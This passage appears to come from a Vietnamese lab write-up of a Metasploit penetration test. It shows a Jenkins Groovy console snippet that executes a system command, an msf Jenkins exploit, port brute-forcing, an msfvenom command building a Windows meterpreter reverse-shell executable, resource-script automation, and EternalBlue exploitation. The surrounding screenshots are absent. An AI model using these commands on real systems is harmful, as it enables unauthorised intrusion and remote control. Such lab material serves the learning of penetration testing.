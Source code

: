 Mở msfconsole và dùng lệnh: Services -s http

![](../media/MSF%20PENTEST%20REPORT_56.png)

truy cập ip:port

dùng lệnh

def sout = new StringBuilder(), serr = new StringBuilder()

def proc = ‘ipconfig'.execute()

proc.consumeProcessOutput(sout, serr)

proc.waitForOrKill(1000)

println "out> $sout\nerr> $serr"

![](../media/MSF%20PENTEST%20REPORT_57.png)

Exploit Jenkins với msf

Set rhosts,rport, target uri

![](../media/MSF%20PENTEST%20REPORT_58.png)

Bruteforce ports

![](../media/MSF%20PENTEST%20REPORT_59.png)

Tao file

msfvenom -p windows/meterpreter/reverse_tcp_allports  LHO=192.168.44.128  -f exe --platform windows -o  eva.exe

![](../media/MSF%20PENTEST%20REPORT_60.png)

![](../media/MSF%20PENTEST%20REPORT_61.png)

![](../media/MSF%20PENTEST%20REPORT_62.png)

![](../media/MSF%20PENTEST%20REPORT_63.png)

Dùng Script tự động tấn công kiểm định System

Dùng lệnh makerc /home/kali/Desktop/scan-ms17.rc để lưu lại các command đã dung trên msf

![](../media/MSF%20PENTEST%20REPORT_64.png)

Dùng lệnh resource /home/kali/Desktop/scan-ms17.rc để chạy tự động

![](../media/MSF%20PENTEST%20REPORT_65.png)

TẤN CÔNG đi sâu vào Advanced Privilege Escalation Memory

Khai thác lỗi eternal blue

![](../media/MSF%20PENTEST%20REPORT_66.png)
